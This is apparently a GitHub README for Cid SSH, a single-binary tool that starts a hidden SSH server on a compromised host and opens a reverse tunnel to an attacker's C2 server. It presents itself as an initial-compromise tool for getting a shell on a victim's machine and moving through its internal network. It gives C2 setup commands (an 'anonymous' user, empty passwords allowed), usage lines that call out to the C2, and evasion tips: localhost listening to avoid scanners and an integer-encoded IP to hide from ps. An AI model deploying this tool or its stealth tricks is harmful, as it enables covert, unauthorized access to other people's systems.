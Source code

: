 # Cid SSH
![alt text](http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg) 

<p align="center">
  <a href="https://github.com/RedRangerz/Cid-SSH/actions?query=workflow%3A%22Build+for+Windows%22"><img alt="Build for Windows" src="https://github.com/RedRangerz/Cid-SSH/workflows/Build%20for%20Windows/badge.svg"></a>
  <a href="https://github.com/RedRangerz/Cid-SSH/actions?query=workflow%3A%22Build+for+OSX%22"><img alt="Build for OSX" src="https://github.com/RedRangerz/Cid-SSH/workflows/Build%20for%20OSX/badge.svg"></a>
  <a href="https://github.com/RedRangerz/Cid-SSH/actions?query=workflow%3A%22Build+for+Linux%22"><img alt="Build for Linux" src="https://github.com/RedRangerz/Cid-SSH/workflows/Build%20for%20Linux/badge.svg"></a>
</p>

Let's face it, there is no better shell than SSH. It just not only provides a rich encrypted shell communication but it can be used to create a socks proxy to browse the internal network of a system.

**CidSSH** is a statically compiled tool (no dependencies needed) that can be used to create an SSH server and a SSH client within just one binary. It will firstly, create RSA certificates, spin up an SSH server (listening in `localhost` and by default on port 2222),and finally create a reverse SSH tunnel with a C2 host specify by command lone. Due to the fact that the SSH server listens at `localhost`, external scanners won't detect it. 

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple, not interactive shell.


## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous # change /bin/false to /path/to/Cid-Controller to use Cid-Controller
```

Allow blank passwords for SSH sessions for the `anonymous` user and restrict `anonymous` user to allow only reverse port forwarding:

```
sudo cat <<EOT >> /etc/ssh/sshd_config
PermitEmptyPasswords yes
ClientAliveInterval 120
ClientAliveCountMax 3

Match User anonymous
   AllowTcpForwarding remote
   X11Forwarding no
   PermitTunnel no
   GatewayPorts no
   AllowAgentForwarding no
   AllowStreamLocalForwarding no
EOT
```

Restart sshd:
```sudo systemctl restart ssh```

### Prebuilt binaries
You can just use the prebuilt binaries that are in [Release](https://github.com/RedRangerz/Cid-SSH/releases). They are ready to roll.

If you want to compile from source keep reading below.

## Using it

Defaults: user is `anonymous`.

Syntaxis:

`Cid-SSH.exe [user@]C2_hostname`

Examples:
```
Cid-SSH.exe 192.168.15.135
Cid-SSH.exe user@192.168.15.135
Cid-SSH.exe -t 3232239495
```

You could also specify the IP address as an integer so it's not that obvious if `ps` is run:
```
Cid-SSH.exe -t 3232239495
```
[Page to do the conversion](http://www.aboutmyip.com/AboutMyXApp/IP2Integer.jsp).

## Compilation

You can find more info about compilation [here](COMPILATION.md).

## Authors
- Alberto Garcia Illera (alberto.garcia@getcruise.com)
- Francisco Oca (foca@getcruise.com)
- Bert JW Regeer (bert.regeer@getcruise.com)
